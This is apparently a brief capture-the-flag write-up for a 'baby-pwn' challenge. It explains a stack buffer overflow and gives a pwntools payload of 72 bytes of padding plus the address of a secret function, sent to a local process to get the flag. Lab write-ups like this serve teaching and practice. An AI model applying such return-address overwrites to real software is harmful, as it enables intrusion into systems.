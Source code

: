 The payload needs to overflow the buffer and overwrite the return address with the address of the secret function. The buffer is 64 bytes, and the saved return address is 8 bytes after the buffer. 

The program gives us the address of the secret function.

The payload will be 72 bytes of padding followed by the address of the secret function. 

```py
payload = b'A' * 72 + p64(secret_function)
```

Then we can send the payload to the program to get the flag.

```py
p = process('./baby-pwn')
p.sendline(payload)
p.interactive()
```

The full script is at [solve.py](solve.py).